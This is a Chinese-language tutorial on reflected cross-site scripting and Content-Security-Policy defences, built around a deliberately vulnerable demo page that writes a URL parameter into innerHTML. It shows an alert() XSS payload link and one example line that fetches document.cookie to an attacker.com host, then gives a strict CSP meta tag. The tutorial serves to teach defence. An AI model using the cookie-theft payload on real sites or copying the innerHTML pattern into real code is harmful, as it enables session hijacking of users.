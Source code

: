 
# 举个例子吧！

这是一个无CSP标头的网站： [点我](https://none-csp-demo.pages.dev/nocsp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E)

不出意外，你的浏览器会弹出一个提示

![](../assets/images/b279f283-b5d2-4dbd-955e-5b3bba6ff656.webp)

# 这是如何做到的？

这个项目开源在 [afoim/none_csp_demo](https://github.com/afoim/none_csp_demo)

HTML内容为

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>欢迎页面</title>
</head>
<body>
  <h1>欢迎</h1>
  <p>你好，<span id="name"></span>！</p>

  <script>
    // 从 URL 参数读取用户名并显示
    const params = new URLSearchParams(location.search);
    const name = params.get("name");
    document.getElementById("name").innerHTML = name;
  </script>
</body>
</html>
```

这个网站非常简单，网页通过查询符 `?name=xxx` 来动态显示用户名

比如你输入 https://none-csp-demo.pages.dev/nocsp?name=AcoFork 网页就会显示

![](../assets/images/366d0934-9c3a-4196-a7ae-1c230c916daf.webp)

而根据源码 网页是通过 `innerHTML` 直接进行文本插入的

这种方式没有任何的安全审查，会将传入的内容直接拼接到HTML中

那么...如果我们给网站这样一个 `name` 呢？

尝试输入 

https://none-csp-demo.pages.dev/nocsp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E

你会发现网站并没有打印出任何用户名，而且浏览器还弹出了一个奇怪的窗口

![](../assets/images/e86cfeed-a9d4-402b-aed0-fc3624f3e925.webp)

我们F12查看当前网页的源代码

![](../assets/images/ad38bc52-e689-4923-b79c-894dc9ab4136.webp)

发现在 `<span id="name"></span>` 中

被插入了一条 `<img src="x" onerror="alert('XSS攻击成功')">` ！

也就是说，网页把我们传入的 `name` 并没有解析为纯文本

而是暴力的直接插入了HTML

导致浏览器并没有渲染出来  `你好，<img src="x" onerror="alert('XSS攻击成功')"> ！` 

而是直接将 `<img src="x" onerror="alert('XSS攻击成功')">` 作为HTML去执行了！

由于 `src=x` 必定无法获取，又因为设置了 `onerror` 这个回退源

导致浏览器直接执行了 `alert('XSS攻击成功')` 这个脚本！

# 有什么危害？

举一反三，既然我们能让浏览器弹出一个提示框

那也就能做到其他事情

攻击者完全可以伪造一条URL，然后发给你，比如**获取你的浏览器Cookie然后通过Fetch发送到指定的服务器**！！！
`https://victim-site.com/page?name=<img src=x onerror="fetch('https://attacker.com/log?cookie='+document.cookie)">`

# 如何设置CSP以避免这类攻击？

尝试访问这个URL，该URL设置了严格的CSP策略

https://none-csp-demo.pages.dev/csp?name=%3Cimg%20src=x%20onerror=%22alert(%27XSS%E6%94%BB%E5%87%BB%E6%88%90%E5%8A%9F%27)%22%3E

你会发现并未弹出提示框，并且F12控制台出现报错

![](../assets/images/2febeecf-6f54-4c6a-b775-ef2ac8598f37.webp)

**以下是GPT给出的翻译和解释**

**翻译：**

> 拒绝执行内联脚本，因为它违反了以下 CSP 指令：`script-src 'self'`。要允许执行内联脚本，必须使用 `'unsafe-inline'` 关键字、指定哈希值（例如 `'sha256-raHeKmhSLYgI2dPMTS+XHraijHkbV3RTs8np6RhiKqQ='`），或使用随机数（例如 `'nonce-...'`）。

**解释：**  
你的 CSP 策略里规定只能加载本域（`'self'`）的脚本，但是你在 HTML 页面中写了 `<script>...</script>` 这样的**内联脚本**（inline script）。这被当前 CSP 限制了，无法执行。

这样我们就成功避免了XSS攻击

在HTML head中添加以下内容即可

```html
  <!-- 安全的 CSP 策略 -->
  <meta http-equiv="Content-Security-Policy" content="
    default-src 'self';
    script-src 'self';
    object-src 'none';
    frame-ancestors 'none';
    base-uri 'self';
  ">
```

# 如何保证我的数据安全？

1. 如果你正在运营站点，**请确保各个站点设置了严格的CSP策略**。这样，即使有攻击者想要XSS注入，也会被CSP策略拦截

2. **不要随意点击来历不明的链接或扫描来历不明的二维码**。对于短链接、混淆后的链接，首先先解析出最终链接，评估风险后再访问。或者使用无痕模式访问。也许目标网站并没有严格的CSP策略，这可能会导致你的个人数据泄露
